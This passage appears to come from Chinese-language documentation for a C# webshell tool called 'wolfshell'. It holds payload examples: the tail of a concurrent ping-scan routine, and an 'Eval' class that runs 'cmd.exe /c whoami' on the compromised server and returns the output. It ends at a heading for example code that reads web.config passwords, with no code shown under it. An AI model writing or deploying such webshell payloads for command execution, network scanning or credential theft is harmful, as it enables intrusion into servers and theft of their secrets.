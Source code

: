 ```csharp
}
});
}
Task.WaitAll(tasks);
return iplist.ToString();
}
}


```


![C#代码示例](http://www.18k.icu/img/wolfshell/CodeCping.png)



#### CMD命令执行 示例代码

```csharp

using System;
using System.Diagnostics;
public class Eval
{
public string eval(Object obj)
{
try
{
Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c whoami";
process.StartInfo.UseShellExecute = false;
process.StartInfo.RedirectStandardOutput = true;
process.Start();
string result = process.StandardOutput.ReadToEnd();
process.WaitForExit();
return result;
}
catch (Exception ex)
{
return "Error occurred: " + ex.Message;
}
}
}


```

![C#代码示例](http://www.18k.icu/img/wolfshell/CodeCmd.png)


#### 获取web.config密码 示例代码
